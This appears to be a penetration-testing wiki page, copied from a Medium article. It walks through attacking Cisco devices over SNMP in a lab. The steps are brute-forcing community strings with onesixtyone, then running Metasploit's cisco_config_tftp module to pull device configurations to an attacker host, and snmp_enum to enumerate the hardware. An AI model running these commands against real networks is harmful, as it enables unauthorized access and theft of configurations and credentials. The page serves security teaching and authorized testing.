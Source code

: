 # Cisco SNMP



This page was copied from [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

## Configuration exfiltration and enumeration via SNMP <a href="#e21c" id="e21c"></a>

**SNMP (Simple Network Management Protocol)** is a protocol that allows you to monitor the status of devices on a computer network. It can be network equipment, IP phones, corporate servers or anything else.

**SNMP uses the UDP transport layer protocol with port numbers 161/UDP and 162/UDP.** So-called community strings are used to refer SNMP agents to the server. These are, shall we say, special passwords for communicating with the SNMP server. **Community strings have either RO (read-only) or RW (read-write) permissions.**

**Actually, SNMP can not only monitor the equipment status, but also manage it in full: dump configs, change the configuration, etc.** If a pentester can look up the value of community strings, he actually gains access to the equipment. **However, it all depends on which string he bruteforced— to RO or RW community string.**

**Bruteforce community strings can be implemented using the** [**onesixtyone**](https://github.com/trailofbits/onesixtyone) **utility.** It will take as input the dictionary for bruteforcing and the IP addresses of the target hosts. The targets will be:

* **10.10.100.10 — Cisco vIOS Switch**
* **10.10.100.254 — Cisco vIOS Router**

```
~$ onesixtyone -c communitystrings -i targets
```

We found out what community strings are used on those devices. This opens the way for us to exploititation.

### 8.1 cisco\_config\_tftp <a href="#1dbf" id="1dbf"></a>

With the Metasploit framework, namely the **cisco\_config\_tftp** module, you can pull the device configuration by knowing the value of the community string. The string that has the rights to the RW is **private**.

We will need the following:

* **RW community string (COMMUNITY)**
* **Attacker’s IP address (LHOST)**
* **Target equipment IP address (RHOSTS)**
* **the path in which the module outputs the configuration of the device (OUTPUTDIR)**

```bash
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set COMMUNITY private
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set LHOST 10.10.100.50
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set OUTPUTDIR /home/necreas1ng/snmp
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > exploit
```

After starting the module, the host configuration with address 10.10.100.10 (10.10.100.10.txt) will be downloaded to the specified folder.

![](<../../.gitbook/assets/image (223).png>)

### 8.2 snmp\_enum <a href="#3429" id="3429"></a>

With this module you can find out information about the target hardware. Everything is exactly the same: specify **COMMUNITY** (by the way, even a string with **RO permissions will do**) and the IP address of the target device.

```bash
msf6 auxiliary(scanner/snmp/snmp_enum) > set COMMUNITY public
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/snmp_enum) > exploit
```

<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>


